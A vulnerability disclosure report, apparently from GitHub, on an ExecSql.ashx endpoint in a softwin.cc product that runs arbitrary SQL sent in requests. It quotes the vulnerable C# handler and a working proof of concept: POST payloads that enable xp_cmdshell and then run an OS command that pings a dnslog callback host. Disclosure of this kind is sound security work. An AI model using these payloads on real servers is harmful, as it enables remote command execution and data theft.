


# Vulnerability Report
## Vendor Homepage
http://www.softwin.cc/pd.jsp?id=1

## Title:
Arbitrary Code Execution in ExecSql.ashx Endpoint

### Summary:
The ExecSql.ashx endpoint of the vendor's application is vulnerable to arbitrary code execution, allowing attackers to execute malicious SQL commands on the underlying database server.

### Affected Endpoint:
ExecSql.ashx

### Vulnerability Type:
Arbitrary Code Execution (ACE)

### Vulnerable Code:
```c#
public class ExecSql : IHttpHandler {

    public void ProcessRequest (HttpContext context) {
        context.Response.ContentType = "text/plain";
        JsonStr jsonResult = new JsonStr();
        try
        {
            String s = context.Request.Headers.ToString();//获得通过HTTP协议协议头传过来的的json数据
            String objStr = HttpUtility.UrlDecode(Utils.GetParamJson(s), Encoding.UTF8);
            Log.Debug("执行sql", objStr);
            if (objStr.Length == 0)//objStr.Length == 0
            {
                jsonResult.Msg_code = ReturnCode.paramater_error;
                jsonResult.Msg_info = "[]";
            }
            else
            {
                try
                {
                    var Paramater = JsonConvert.DeserializeObject<dynamic>(objStr);
                    string sqlStr = Paramater.sqlStr;   //任意sql语句执行
                        
                    var sql = new SqlRun.DBAccess(SqlRun.DBAccess.sqlstr);
                    var dtKey = sql.RunProcedureDR(sqlStr);
                    var ds = new DataSet();
                    ds.Tables.Add(dtKey);
                    jsonResult.Msg_code = ReturnCode.pass;
                    jsonResult.Msg_info = JsonToAndToJson.ToJson(ds);
                }
                catch (Exception ex)
                {
                    jsonResult.Msg_code = ReturnCode.paramater_text_error;
                    jsonResult.Msg_info = "[{\"error\":\"" + ex.Message + "\"}]";
                    Log.Error("error", ex.Message);
                    context.Response.Write(jsonResult.GetJonStr());
                    return;
                }
            }
        }
```

### Proof of Concept (PoC):
1. Send a POST request to the ExecSql.ashx endpoint with the following payload:
```
POST /jk/ExecSql.ashx HTTP/1.1
Host: yourapiendpoint.com
Content-Type: application/json
Content-Length: 47

{
  "sqlStr": "EXEC sp_configure 'show advanced options', 1;RECONFIGURE;EXEC sp_configure 'xp_cmdshell', 1;RECONFIGURE;"
}
```

2. Send another POST request to the ExecSql.ashx endpoint with the following payload:
```
POST /jk/ExecSql.ashx HTTP/1.1
Host: yourapiendpoint.com
Content-Type: application/json
Content-Length: 47

{
  "sqlStr": "exec master..xp_cmdshell 'ping 952eb654.log.dnslog.myfw.us.'"
}
```



### Impact:

An attacker can exploit this vulnerability to execute arbitrary SQL commands on the server, potentially leading to data leakage, data manipulation, or unauthorized access.

### Recommendation:
1. Sanitize and validate user inputs to prevent SQL injection attacks.
2. Avoid executing user-supplied SQL commands directly on the database.
3. Implement least privilege access controls to limit the capabilities of the database user account used by the application.

### Conclusion:
The ExecSql.ashx endpoint in the vendor's application is susceptible to arbitrary code execution, posing a significant security risk. It is crucial for the vendor to address this vulnerability promptly to protect the integrity and confidentiality of their users' data.

### References:
- OWASP SQL Injection Prevention Cheat Sheet: https://owasp.org/www-community/Preventing_SQL_Injection_in_ASP.NET
- Microsoft Documentation on SQL Injection: https://docs.microsoft.com/en-us/previous-versions/msp-n-p/ff648339(v=pandp.10)

